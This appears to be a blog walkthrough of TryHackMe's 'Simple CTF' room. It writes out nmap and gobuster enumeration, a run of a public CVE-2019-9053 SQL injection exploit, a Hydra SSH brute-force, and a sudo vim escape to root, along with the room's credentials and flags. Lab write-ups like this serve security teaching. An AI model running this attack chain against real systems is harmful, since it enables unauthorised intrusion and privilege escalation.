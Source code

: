 ```yaml
---
author: Chance Johnson
date: 2023-03-31
description: A beginner friendly CTF by MrSeth6797 on TryHackMe.
layout: post
title: Simple CTF
---
```

[Simple CTF](https://tryhackme.com/room/easyctf) is a beginner friendly CTF on TryHackMe by MrSeth6797. I will be using Kali Linux.

# 1. How many services are running under port 1000?
I executed the following Nmap command to scan for both UDP and TCP services on this port:
```
sudo nmap -sS -sU -p1000 10.10.214.207
```

This tells me the following two services are running:
```
1000/tcp filtered      cadlock
1000/udp open|filtered ock
```

**Answer**: 2

# 2. What is running on the higher port?
[By default, Nmap scans the top 1,000 ports](By default, Nmap scans the top 1,000 ports for each scan protocol requested.), so there's a good chance the following command will tell me which service is listening to the highest port number:
```
nmap 10.10.214.207
```

Output:
```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

The scan tells us an [EtherNet/IP](https://en.wikipedia.org/wiki/EtherNet/IP) service is listening on `2222/tcp`. Nmap uses its [`nmap-services`](https://nmap.org/book/nmap-services.html) database to determine which services correspond to which port numbers. As you probably already know, applications can be configured to listen to any desired port number. Therefore, this information is not always reliable.

I'll investigate further with a version detection scan:
```
nmap -sV -p2222 10.10.214.207
```

Output:
```
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

An Nmap [version detection](https://nmap.org/book/man-version-detection.html) scan uses the [`nmap-service-probes`](https://nmap.org/book/nmap-service-probes.html) database to determine what program is listening on a port. As you can see in the output above, Nmap has determined that an SSH server is listening on that port.

**Answer**: ssh

# 3. What's the CVE you're using against the application?
At first, I used the Nmap [vulners](https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse) script to list CVEs for the services listening on the open ports I had already discovered:
```
sudo nmap -sV -sS -sU -p21,80,2222,1000 --script=vulners 10.10.214.207
```

This produced an extensive list of CVEs, so I decided to go a different route and do some more enumeration.

I'll start by performing a version scan on `80/tcp`:
```
nmap -sV -p80 10.10.214.207
```

Output:
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

It appears an Apache HTTP server is listening to this port, so I will use `gobuster` to find some common directories:
```
gobuster dir -u http://10.10.214.207/ -w /usr/share/wordlists/dirb/common.txt
```

The following resources were found:
```
/.htpasswd
/.hta
/.htaccess
/index.html
/robots.txt
/server-status
/simple
```

I opened up Firefox and navigated to `http://10.10.214.207/simple`. It appeared to be an installation page for [CMS Made Simple](https://www.cmsmadesimple.org/). At the bottom of the page there was a version number: `2.2.8`.

A Google search for `cms made simple 2.2.8 cve` lead me to [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053).

**Answer**: CVE-2019-9053

# 4. To what kind of vulnerability is the application vulnerable?
CVE-2019-9053 is recorded as an SQL injection vulnerability.

**Answer**: SQLi

# 5. What's the password?
I found [this](https://github.com/e-renna/CVE-2019-9053) Python script online for exploiting the CVE. Using this script, I ran the following command:
```
python3 exploit.py -u http://10.10.214.207/simple/
```

Output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

It would appear the found password is a hash of the original password and the salt. This isn't very useful, however it does list the username "mitch".

I'll attempt to login to that SSH server listening on `2222/tcp`:
```
hydra -s 2222 -l mitch -P /usr/share/wordlists/john.lst -t 4 10.10.214.207 ssh
```

The output of this command indicates the password is "secret". 

**Answer**: secret


# 6. Where can you login with the details obtained?
Obviously, the SSH server.

**Answer**: SSH

# 7. What's the user flag?
I logged into the SSH server with the newly found credentials, and found a "user.txt" file. The contents of the file read "G00d j0b, keep up!".

**Answer**: G00d j0b, keep up!

# 8. Is there any other user in the home directory? What's its name?
There was a directory named "sunbath" in the "/home" directory.

**Answer**: sunbath

# 9. What can you leverage to spawn a privileged shell?
I got stuck on this for a while. There weren't any more files in the user's home directory, and I wasn't able to perform many commands as sudo. I finally remembered to list which sudo commands can be performed:
```
sudo -l
```

Output:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

It looks like I can use vim to run commands as the root user.

**Answer**: vim

# 10. What's the root flag?
I ran vim as sudo, and in vim I entered the following:
```
:!ls /root
```

This showed a `flag.txt` file. All that was left to do was print the contents of this file via vim:
```
:!cat /root/flag.txt
```

**Answer**: W3ll d0n3. You made it!


